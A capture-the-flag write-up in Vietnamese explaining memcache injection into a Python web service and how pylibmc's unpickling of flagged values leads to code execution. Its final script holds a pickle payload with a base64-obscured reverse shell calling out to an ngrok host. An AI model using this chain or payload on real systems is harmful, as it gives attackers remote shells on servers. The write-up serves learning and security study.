 # Solution

Bài này server sử dụng package celery để tạo các task queue, đồng thời kết hợp với memcache để lưu kết quả của các phép tính: cộng, trừ, nhân, chia, giúp giảm thời gian tính toán trong những lần sau.

Dễ thấy với những chall có backend (redis, memcache, ...) sử dụng text-based protocol như thế này ta thường đều có thể inject chúng. Và ở bài này cũng vậy, có thể khai thác memcache injection tại route `/calc/<operation>/<lhs>/<rhs>`

Syntax đúng của set command trong memcache như sau:

![set_command](https://user-images.githubusercontent.com/77546253/223177206-94af17b8-0ccd-45bc-aa15-a1aa3c226d6c.png)

Thử inject key là `vanir` với value là `haha`

![memcache_inject](https://user-images.githubusercontent.com/77546253/223177339-26d58a50-9092-4660-b2fa-40f43a492753.png)

Exec vào container, telnet đến memcahe server và tiến hành kiểm tra

![check_inject_success](https://user-images.githubusercontent.com/77546253/223177375-7f529294-2536-4795-aaee-6812231dfd8a.png)

-> Thành công.

Tiếp theo, mình dive source để tìm kiếm thêm thông tin cho việc rce. Server sử dụng `pylibmc` làm memcache client để thực hiện set và get data. Về `pylibmc`, nó là một thư viện python nhưng được viết bằng C và khi dive source của thằng này sẽ tìm được mảnh ghép cuối cùng để solve chall.

Chain sẽ như sau:

```
PylibMC_Client_get ->
  _PylibMC_parse_memcached_value ->
    _PylibMC_deserialize_native ->
      _PylibMC_Unpickle_Bytes, _PylibMC_Unpickle
```

Nếu `dtype` là `PYLIBMC_FLAG_PICKLE` thì sẽ thực hiện unpickle -> rce (Source tại [đây](https://github.com/lericson/pylibmc/blob/78138d33c4156111294269a2a8f0cfcc66ac5c5c/src/_pylibmcmodule.c))

![unpickle](https://user-images.githubusercontent.com/77546253/223177527-518837c7-cd8a-4fec-b447-160756203019.png)

Sau khi check file `_pylibmcmodule.h` tại [đây](https://github.com/lericson/pylibmc/blob/78138d33c4156111294269a2a8f0cfcc66ac5c5c/src/_pylibmcmodule.h), ta thấy để thỏa mãn điều kiện thì cần giá trị của `flags` khi gửi command set là `1`

![flag_pickle](https://user-images.githubusercontent.com/77546253/223177661-adfa4c6c-e883-4037-9b29-78be3290afc2.png)

Vậy ý tưởng khai thác sẽ là: memcache injection để set giá trị cho một key là payload rce (khi được unpickle), sau đó gửi GET request tới server để memcache client thực hiện lấy key này về => RCE diễn ra 

Final script:
```python
import requests
import pickle, os
import urllib.parse
import base64
class RCE:
    def __reduce__(self):
        cmd = ('echo c2ggLWkgPiYgL2Rldi90Y3AvNi50Y3Aubmdyb2suaW8vMTk1MjIgMD4mMQ==|base64 -d|bash')
        return os.system, (cmd,)

url = "http://127.0.0.1:5000"

if __name__ == '__main__':

    path = f"/calc/add/123/123"

    pickledPayload = pickle.dumps(RCE(), 1)
    len_payload = len(pickledPayload)
    print(len_payload)


    set_command = b"\r\nset uwsgi_file__app_chall._add_1_1233 1 60 111"+ b"\r\n" + pickledPayload + b"\r\n"

    final_path = path + urllib.parse.quote_from_bytes(set_command)

    print(url +  final_path)
    print(requests.get(url +  final_path).text)
    print(requests.get(url + "/calc/add/1/1233").text)
```

